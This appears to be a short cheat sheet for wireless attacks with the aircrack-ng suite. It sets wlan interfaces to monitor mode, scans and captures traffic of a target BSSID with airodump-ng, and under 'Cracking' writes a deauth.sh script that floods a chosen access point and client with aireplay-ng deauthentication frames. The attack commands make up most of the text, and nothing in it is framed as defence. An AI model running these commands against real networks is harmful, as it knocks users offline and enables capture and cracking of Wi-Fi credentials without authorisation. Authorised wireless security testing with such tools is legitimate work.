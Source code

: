## General

### AP `a`
```bash
1 ap
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format csv --write sessions \
            --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --bssid CHANGEME --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 5 --output-format pcap --write sessions \
            --bssid CHANGEME --channel 1 wlan0
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel $1

aireplay-ng -0 99 -D -a $2 -c $3 wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
